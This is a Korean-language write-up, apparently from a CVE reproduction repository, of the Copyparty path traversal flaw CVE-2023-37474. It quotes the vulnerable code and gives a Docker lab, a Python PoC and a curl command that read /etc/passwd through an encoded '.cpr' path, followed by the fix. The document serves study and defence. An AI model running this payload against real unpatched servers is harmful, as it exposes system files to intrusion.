



# Copyparty Path Traversal Vulnerability (CVE-2023-37474)

작성자: [김민규 (GitHub Link)](https://github.com/minmoong)

## 취약점 요약

### 필요 환경

Copyparty  
영향을 받는 버전: <1.8.2  
패치된 버전: 1.8.2

- [Copyparty](https://github.com/9001/copyparty)는 파이썬으로 작성된 웹 기반 파일 서버입니다.
- 웹에서 파일 서버로 접속하면, 웹 페이지 구성을 위해 가상 디렉토리인 `.cpr`의 하위 경로로 리소스를 요청합니다.
    - 예시: `http://127.0.0.1:3923/.cpr/ui.css`,
      `http://127.0.0.1:3923/.cpr/util.js` 등등
- 이때 아래의 `handle_get` 함수에서 이 가상 경로를 처리할 때 경로를 검사하지 않아 Path Traversal 취약점이 발생합니다.

```python
def handle_get(self) -> bool:
    ...

    # "embedded" resources
    if self.vpath.startswith(".cpr"):
        if self.vpath.startswith(".cpr/ico/"):
            ...

        if self.vpath.startswith(".cpr/ssdp"):
            ....

        if self.vpath.startswith(".cpr/dd/") and self.args.mpmc:
            ...

        static_path = os.path.join(self.E.mod, "web/", self.vpath[5:])
        return self.tx_file(static_path)
```

소스코드: [copyparty/copyparty/httpcli.py (v1.8.1)](https://github.com/9001/copyparty/blob/a10cad54fc29727518e6ab8dfe5bd885e0955f51/copyparty/httpcli.py#L732)

## 환경 구성 및 재현 절차

아래 명령어를 통해 두 개의 서비스를 실행합니다.

```
docker-compose up -d --build
```

`copyparty` 서비스는 취약한 copyparty를 실행하고, `poc` 서비스는 `poc.py`를 실행하여 PoC를 자동으로 진행합니다.

PoC 코드는 아래와 같습니다.

~~~python
import time

import requests
from requests.exceptions import RequestException

print("CVE-2023-37474 PoC")
print("Path Traversal 공격을 시도합니다.")

# copyparty 서비스로 요청을 보낸다.
url = "http://copyparty:3923/.cpr/%2Fetc%2Fpasswd"

response = None
for _ in range(30):
    try:
        response = requests.get(url, timeout=5)
        break
    except RequestException:
        time.sleep(1)

if response is None:
    raise SystemExit("copyparty is not reachable on http://copyparty:3923 after 30s")

print("응답:")
print(response.text)
~~~

PoC의 실행 결과를 확인하려면 아래와 같이 입력하여 `poc` 서비스에서 출력한 로그를 확인합니다.

```bash
docker logs poc_cve_2023_37474
```

또는 아래와 같이 직접 취약한 서버에 curl 요청을 실행할 수 있습니다.

```bash
curl -i -s -k -X  GET 'http://127.0.0.1:3923/.cpr/%2Fetc%2Fpasswd'
```

실행 중인 컨테이너를 중지하고 삭제하려면 아래 명령어를 사용합니다.

```bash
docker-compose down
```

## 실행 결과

### 환경 구성



### 재현

로그 확인


curl을 통해 직접 요청을 날릴 경우


## 대응 방안

Copyparty는 아래와 같이 수정되어야 합니다.

- `os.path.abspath()`와 같은 함수를 사용하여 사용자가 입력한 경로를 절대 경로로 변환하고, 허용된 경로인지 검사하는 로직이 추가되어야 합니다.
- 실제로 [Copyparty v1.8.2](https://github.com/9001/copyparty/blob/85a637af09f18f26e3ddb3d76a549a00a69c0078/copyparty/httpcli.py#L785) 버전에서 해당 로직이 적용되어 있는 것을 확인할 수 있습니다.

## 참고 자료

- https://www.exploit-db.com/exploits/51636
- https://github.com/9001/copyparty/security/advisories/GHSA-pxfv-7rr3-2qjg
